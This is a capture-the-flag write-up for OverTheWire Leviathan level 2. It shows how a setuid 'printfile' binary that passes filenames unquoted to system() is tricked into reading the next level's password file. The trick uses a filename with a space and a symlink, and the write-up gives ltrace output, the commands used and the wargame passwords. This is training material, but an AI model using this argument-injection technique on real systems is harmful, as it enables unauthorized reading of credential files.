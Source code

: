 # OverTheWire Project

### [Project Leviathan:](http://overthewire.org/wargames/leviathan/)

#### Leviathan Level 1 -> 2
> There is no information for this level, intentionally.

SSH into the second level using the password `ougahZi8Ta`

There's a executable called `printfile`. The program seems to run like `cat`,

```
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Unfortunately, it tells us we don't have permission to access the password.
Running ltrace shows us that the program uses a access function to check if the user has access to the file.
But this is the output if access function fails, it should return a different output if it succeeds right?
Create a directory where we have write permission in `/tmp`
Then create a dummy file to check the successful output:

```bash
leviathan2@leviathan:~$ mkdir /tmp/playfield
leviathan2@leviathan:~$ cd /tmp/playfield
leviathan2@leviathan:/tmp/playfield$ echo "hello world" > dummy
leviathan2@leviathan:/tmp/playfield$ ~/printfile dummy
hello world
leviathan2@leviathan:/tmp/playfield$ ltrace ~/printfile dummy
__libc_start_main(0x804858d, 2, 0xffffd6a4, 0x8048680 <unfinished ...>
access("dummy", 4)                                                                                                = 0
snprintf("/bin/cat dummy", 511, "/bin/cat %s", "dummy")                                                           = 14
geteuid()                                                                                                         = 12002
geteuid()                                                                                                         = 12002
setreuid(12002, 12002)                                                                                            = 0
system("/bin/cat dummy"hello world
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                            = 0
+++ exited (status 0) +++
```

So if the output is successful, the program simply executes `/bin/cat "filename"`.
Since the filename is passed into a string and executed in the shell, we can have a space in our filename so the program will `cat` a second file and display it.
We already have a dummy file, so we can create `dummy pass.txt` and `pass.txt`. Create one file `dummy pass.txt` so the access function has something to check and return a successful output with. We already have a seperate file `dummy` to have a space between the two files. Then finally, create a symbolic link to the file `pass.txt`. Since the program's effective user id is for the next level, it executes cat as the next level's user.

```
leviathan2@leviathan:/tmp/playfield$ touch "dummy pass.txt"
leviathan2@leviathan:/tmp/playfield$ ln -s /etc/leviathan_pass/leviathan3 pass.txt
leviathan2@leviathan:/tmp/playfield$ ls
dummy  dummy pass.txt  pass.txt
leviathan2@leviathan:/tmp/playfield$ ~/printfile "dummy pass.txt"
hello world
Ahdiemoo1j
```
**Ta-dah!, we get the password for leviathan3 which is `Ahdiemoo1j`**
